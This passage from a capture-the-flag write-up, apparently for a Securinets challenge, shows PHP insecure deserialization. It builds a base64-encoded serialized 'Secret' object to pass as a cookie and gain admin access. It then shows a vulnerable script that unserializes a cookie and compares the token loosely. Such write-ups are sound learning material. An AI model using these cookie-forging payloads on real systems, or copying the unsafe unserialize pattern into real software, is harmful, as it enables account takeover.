 Since we got everything we need of admin we can craft our own payload with 
```php
$ php -a
Interactive shell 
php > class Secret { 
php { public $username; 
php { public $token; 
php { public function __construct($username, $token) { 
php { $this->username = $username; 
php { $this->token = $token; 
php { } 
php { } 
php > } 
php > $obj = new Secret("admin", "ABCDDAZAZUIDUBIUAFZ123456789"); 
php > $ser = serialize($obj); 
O:6:"Secret":2{s:8:"username";s:5:"admin";s:5:"token";s:28:"ABCDDAZAZUIDUBIUAFZ123456789";}
php > echo base64_encode($ser);
Tzo2OiJTZWNyZXQiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6NToidG9rZW4iO3M6Mjg6IkFCQ0REQVpBWlVJRFVCSVVBRloxMjM0NTY3ODkiO30=
php >
```

And finally we send our payload to get admin account:
>Poc
![](Pasted%20image%2020250223214610.png)

## V. SerialKiller Pro Max 🔪🩸
For this task we got the same logic of the app, but this time without the secret 
```php
// more_secrets.php
<?php
    class Secret {
        public $username;
        public $token;
        public function __construct($username, $token) {
            $this->username = $username;
            $this->token = $token;
        }
    }
    function setSecretCookie() {
        $someguy = new Secret('test', 'weaktoken');
        setcookie('secret', base64_encode(serialize($someguy)), time() + 3600, "/");
    }
    if (isset($_POST['set']) && $_POST['set'] == 'Reset') {
        setSecretCookie();
    }
    if (isset($_COOKIE['secret'])) {
        $user = unserialize(base64_decode($_COOKIE['secret']));
        if ($user->username==='admin' && $user->token=='REDACTED') {
            echo '<div class="terminal">Securinets{fake_flag}</div>';
        } else {
            echo '<div class="terminal">You again ?? U still a punk !</div>';
        }
    }
?>
```
